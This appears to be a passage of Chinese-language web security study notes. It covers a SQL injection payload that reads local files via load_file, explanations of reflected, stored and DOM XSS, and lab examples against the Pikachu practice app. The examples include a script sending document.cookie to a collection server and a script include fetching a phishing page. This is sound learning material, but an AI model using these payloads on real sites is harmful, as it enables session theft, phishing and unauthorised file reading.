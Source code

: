 ```sql
' UNION SELECT 1,load_file('0x433a2f55736572732f48502f4465736b746f702f746573742e747874')# 或者' union select 1,load_file('C:/Users/HP/Desktop/test.txt')#
```

## XSS

### 概述

XSS全称（Cross Site Scripting）跨站脚本攻击，为了避免和CSS层叠样式表名称冲突，所以改为了XSS，是最常见的Web应用程序安全漏洞之一，位于OWASP top 10 2013/2017年度分别为第三名和第七名, XSS是指攻击者在网页中嵌入客户端脚本,通常是JavaScript编写的危险代码,当用户使用浏览器浏览网页时,脚本就会在用户的浏览器上执行,从而达到攻击者的目的。

### 反射型

交互的数据一般不会被存在在数据库里面,只是简单的把用户输入的数据反射给浏览器，一次性，所见即所得。

Pyload：

```js
'"><script>alert(123)</script>
```

### 存储型

交互的数据会被存在在数据库里面,永久性存储,具有很强的稳定性。

Pyload：

```js
'"><script>alert(123)</script>
```

### DOM型

不与后台服务器产生数据交互,通过前端的dom节点形成的XSS漏洞，也是属于低危漏洞了。

Pyload：

```js
'" onclick="alert(123)"
```

### 实例

#### 反射型获取cookie

PS：记得提前搭建接收服务器

```
'"><script>document.location ='http://192.168.229.129/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>
```

#### Xss钓鱼

```
'"><script src="http://192.168.229.129/pikachu/pkxss/xfish/fish.php"></script>
```
